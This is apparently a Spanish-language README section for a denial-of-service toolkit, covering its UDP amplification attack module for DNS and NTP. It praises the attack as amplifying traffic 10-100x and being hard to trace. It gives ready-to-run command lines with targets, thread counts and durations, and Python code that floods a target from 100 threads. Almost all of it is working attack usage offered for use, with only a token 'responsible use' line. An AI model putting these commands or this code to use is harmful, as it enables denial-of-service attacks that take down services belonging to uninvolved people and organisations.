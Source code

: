 ### Ventajas
- Amplificación de tráfico (10-100x)
- Difícil de rastrear
- Muy efectivo contra objetivos

### ⚠️ Consideraciones
- Requiere acceso a servidores amplificadores
- Puede ser detectado por IDS/IPS
- Uso responsable recomendado

### Uso Directo

```bash
# UDP-Amplification DNS
python python/attacks.py --attack udp_amplification --target 192.168.1.1 --port 53 --threads 200 --duration 120

# UDP-Amplification NTP
python python/attacks.py --attack udp_amplification --target 10.0.0.1 --port 123 --threads 300 --duration 300

# UDP-Amplification intenso
python python/attacks.py --attack udp_amplification --target 192.168.1.100 --port 53 --threads 1000 --duration 600
```

### Uso Programático (Python)

```python
from python.core.udp_amp import UDPAmplification
import threading

# Crear instancia (DNS)
udp_dns = UDPAmplification('192.168.1.1', 53, 'dns')

# Enviar amplificación DNS
udp_dns.send_dns_amplification('example.com')

# Crear instancia (NTP)
udp_ntp = UDPAmplification('192.168.1.1', 123, 'ntp')

# Enviar amplificación NTP
udp_ntp.send_ntp_amplification()

# Ataque multi-thread
def udp_attack():
    for i in range(500):
        try:
            udp_dns.send_amplified_packet()
        except Exception as e:
            print(f"[-] Error: {e}")

threads = []
for i in range(100):
    t = threading.Thread(target=udp_attack)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```
